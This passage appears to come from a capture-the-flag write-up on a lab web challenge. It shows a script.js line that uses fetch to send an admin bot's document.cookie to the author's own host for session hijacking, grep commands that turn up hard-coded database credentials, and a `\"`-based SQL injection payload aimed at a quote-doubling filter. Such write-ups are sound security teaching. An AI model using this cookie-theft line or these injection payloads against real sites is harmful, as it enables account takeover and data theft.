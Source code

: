 From here, we could run any exploits we wanted, but the way I chose to run exploits was interactively. Inside the script.js file, I used `fetch('http://172.18.0.1:8000/pwn?cookie=' + document.cookie)`, which allowed me to get the PHP session cookie for the bot's admin login session from the server request log. From there, we can use a cookie editor extension to set this cookie on our own browser, gaining admin privileges.

## SQL injection

All the accessible websites are visible in /var/www/html/, and we know that the the two parts of the flag need the privileges of the 'approver' and 'crawler' users. We can find all the files that connect to the SQL server as these users using the commands

    grep mysqli_connect.*approver -R /var/www/html | grep -v index.php
    grep mysqli_connect.*crawler -R /var/www/html

which look for mysqli_connect with the users approver and crawler. As the approver user is also used to validate and facilitate logins, we filter out the index.php files which only use the SQL connection for logins. The files left after doing this are as follows:

    root@960ed1d5830b:/tmp# grep mysqli_connect.*approver -R /var/www/html | grep -v index.php
    /var/www/html/accounts/accounts.php:            $link = mysqli_connect('127.0.0.1', 'approver', 'foobar');
    /var/www/html/grave/graveyard.php:      $link = mysqli_connect('127.0.0.1', 'approver', 'foobar');
    /var/www/html/readf/feedback.php:       $link = mysqli_connect('127.0.0.1', 'approver', 'foobar');
    /var/www/html/review/review.php:        $link = mysqli_connect('127.0.0.1', 'approver', 'foobar');
    root@960ed1d5830b:/tmp# grep mysqli_connect.*crawler -R /var/www/html
    /var/www/html/ban/ban.php:              $link = mysqli_connect('127.0.0.1', 'crawler', 'seekout');
    /var/www/html/insert/insert.php:                $link = mysqli_connect('127.0.0.1', 'crawler', 'seekout');
    /var/www/html/tags/tags.php:            $link = mysqli_connect('127.0.0.1', 'crawler', 'seekout');
    root@960ed1d5830b:/tmp#

After looking at all the files, one stands out - specifically, insert.php with the crawler user. To prevent SQL injection, instead of using mysqli_real_escape_string to escape user input, it uses quote duplication:

    //$url = mysqli_real_escape_string($link, $_POST['url']);
    $url = str_replace("\'", "\'\'", $_POST['url']);
    $url = str_replace("\"", "\"\"", $url);

While this is a supported way of escaping quotes in SQL, it is usually also relatively easy to get around by simply adding a backslash and one quote (example: query is `SELECT * FROM table WHERE name = "user-input"`, if we control user-input, we can simply write `\"; STATEMENT; --`, which gets the quotes duplicated, and thus the query becomes `SELECT * FROM table WHERE name = "\""; STATEMENT; --"`, so STATEMENT gets interpreted as an SQL statement). However, if we try to enter the string `\" --` (since the SQL statement, on lines 75-76, uses double quotes to quote strings) as the URL in the form on page /insert/insert.php (logging in as admin:not_real_admin_password for now), which should return an SQL error, we find that we get told there were "No errors", and indeed if we check the database manually with

    mysql wiby -e "SELECT * FROM windex"

we find that the query did indeed go through, and the URL field contains exactly `\" --` - with the double quotes reduced to what we entered, and with the backslash intact. It's almost as if the backslash is not acting as an escape character! What gives?
